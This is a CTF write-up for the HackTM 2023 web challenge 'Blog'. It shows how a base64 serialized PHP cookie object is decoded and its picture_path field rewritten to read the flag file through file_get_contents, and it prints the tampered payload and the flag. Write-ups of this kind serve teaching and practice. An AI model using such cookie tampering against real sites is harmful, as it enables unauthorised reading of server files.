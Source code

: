 ```yaml
---
title: HackTM CTF 2023 - Writeup
author: H0j3n
date: 2023-02-19 00:00:00
categories: [ctf]
tags: [ctf,writeup]
render_with_liquid: false
---
```


This write-up serves as a personal reference and a tool for me to practice CTF. It includes information and solutions collected from various sources, including challenges that were not solved during the event.

### Category : Web

#### Web : Blog

> We made a new blogging website for everyone to use! It's pretty basic for now, and it has a few limitations like:
> 1. No comments
> 2. Semi-working authentication system
> 3. Lots of random checks slowing down the entire website honestly (i don't know what's going on so i'm not touching it)
> To mitigate that, we made it such that only you can view your own posts. No one
can hack us now >:)
> Link: [http://34.141.16.87:30000/](http://34.141.16.87:30000/)
> File: `dist.zip`

We received a file named `dist.zip`, which includes a dockerfile that contains a `COPY` function to transfer the contents of `./chal/flag.txt` to `/02d92f5f-a58c-42b1-98c7-746bbda7abe9/flag.txt`

> `COPY`: The `COPY` instruction in a Dockerfile is used to copy files or directories from the host machine into the container during the build process.
{: .prompt-info }

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/5_hacktm2023/hacktm1.png)

In `util.php`, the `file_get_contents` PHP function is used to retrieve a user's profile image. 

```php
class Profile {
	public function __toString() {
			// ------snip------
	        $picture = base64_encode(file_get_contents($this->picture_path));
	        // ------snip------
	    }
}
```

When a new account is registered and a user logs in, a cookie is generated that contains a serialized PHP object in base64 format.

- **Encoded Base64** 
```bash
Tzo0OiJVc2VyIjoyOntzOjc6InByb2ZpbGUiO086NzoiUHJvZmlsZSI6Mjp7czo4OiJ1c2VybmFtZSI7czo4OiJhZG1pbjMyMSI7czoxMjoicGljdHVyZV9wYXRoIjtzOjI3OiJpbWFnZXMvcmVhbF9wcm9ncmFtbWVycy5wbmciO31zOjU6InBvc3RzIjthOjA6e319
```

- **Decoded Base64**
```bash
O:4:"User":2:{s:7:"profile";O:7:"Profile":2:{s:8:"username";s:8:"admin321";s:12:"picture_path";s:27:"images/real_programmers.png";}s:5:"posts";a:0:{}}
```

The serialized PHP object contains the path to the user's profile image. When the server responds to the user's request, the response includes the base64-encoded content of the user's profile image.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/5_hacktm2023/hacktm2.png)

To retrieve the flag, we modify the path to the profile image in the serialized PHP object to point to the flag path, and then decode the base64 response.

```bash
O:4:"User":2:{s:7:"profile";O:7:"Profile":2:{s:8:"username";s:8:"admin321";s:12:"picture_path";s:46:"/02d92f5f-a58c-42b1-98c7-746bbda7abe9/flag.txt";}s:5:"posts";a:0:{}}
```

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/5_hacktm2023/hacktm3.png)

Flag: `HackTM{r3t__toString_1s_s0_fun_13c573f6}`

